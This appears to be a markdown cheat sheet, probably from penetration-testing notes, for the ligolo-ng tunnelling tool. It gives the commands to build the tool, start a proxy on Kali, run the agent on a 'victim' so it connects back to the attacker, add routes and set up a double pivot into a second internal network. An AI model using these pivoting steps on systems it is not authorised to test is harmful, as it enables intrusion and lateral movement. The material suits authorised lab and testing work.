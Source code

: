 # LIGOLO

## Pre-requisite

```bash
sudo apt install golang-go
```

## Install

```bash
cd /opt
sudo git clone https://github.com/nicocha30/ligolo-ng
cd ligolo-ng
sudo go build -o agent cmd/agent/main.go
sudo go build -o proxy cmd/proxy/main.go
```

## Creating a TUN Interface (kali)

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

## Starting the Proxy Server (kali)

```bash
cd /opt/ligolo-ng
./proxy -selfcert
```

## Agent (victim)

https://github.com/nicocha30/ligolo-ng/releases

```bash
./agent -connect kali_ip:11601 -ignore-cert &
```

## Adding a new route on Proxy Server (kali)

```bash
sudo ip route add ip_to_reach_on_victim/24 dev ligolo
```

## Start session (kali/proxy)

- Type `session`
- Select the session
- Type `start`

## Double Pivot

### Creating a Listener (kali/proxy)

In the session

```bash
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list
```

### Connect Double Pivot box to Proxy Server (victim 2)

```bash
./agent.exe -connect 2nd_ip_of_victim_1:11601 -ignore-cert &
```

### Adding a new route on Proxy Server (kali)

```bash
sudo ip route add ip_to_reach_on_victim_2/24 dev ligolo
```